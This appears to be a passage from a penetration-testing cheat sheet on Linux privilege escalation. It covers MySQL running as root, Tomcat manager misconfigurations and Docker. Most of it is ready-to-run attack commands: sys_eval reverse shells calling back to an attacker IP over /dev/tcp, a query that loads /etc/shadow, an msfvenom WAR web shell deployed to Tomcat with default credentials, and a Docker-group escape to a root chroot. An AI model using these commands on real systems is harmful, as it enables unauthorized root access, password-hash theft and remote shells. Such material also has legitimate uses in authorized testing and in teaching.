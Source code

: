 #### MySQL Root Access
- **Execute shell commands via SQL injection or weak configurations:** If the MySQL service is misconfigured and running as root, exploit it to write to critical files.
	```sql
	SELECT sys_eval('bash -i >& /dev/tcp/<attack_ip>/<port> 0>&1')
	```
- **MySQL Running as Root:** If MySQL runs as root, use UDF (User Defined Functions) to execute commands as root:
  ```bash
  use mysql;
  create table foo(line blob);
  insert into foo values(load_file('/etc/shadow'));
  ```
- **Leveraging `sys_eval()`:** Use `sys_eval()` to run commands directly from MySQL:
  ```bash
  select sys_eval('bash -i >& /dev/tcp/<attack_ip>/<port> 0>&1');
  ```

#### Apache Tomcat Misconfigurations
- **Deploying a WAR File (Web Shell):** If you have access to the Tomcat Manager interface, upload a malicious WAR file to gain a shell:
  ```bash
  msfvenom -p java/jsp_shell_reverse_tcp LHOST=<attack_ip> LPORT=<port> -f war > shell.war
  curl --user tomcat:tomcat 'http://<target_ip>:8080/manager/text/deploy?path=/shell&war=file:/path/to/shell.war'
  curl 'http://<target_ip>:8080/shell/'
  ```

# Containers and Virtualization

#### Virtualization Enumeration
- **Detects if the system is running in a virtualized environment:**
	```bash
	systemd-detect-virt
	```

#### Docker Enumeration
- **Lists all Docker containers:**
	```bash
	docker ps -a
	```
- **Lists all Docker images:**
	```bash
	docker images
	```
- **Displays Docker daemon configuration:**
	```bash
	cat /etc/docker/daemon.json
	```

#### Docker Privilege Escalation
- **Escalate Privileges via Docker (if User is in the docker Group):**
	```bash
	docker run -v /:/mnt --rm -it alpine chroot /mnt sh
	```
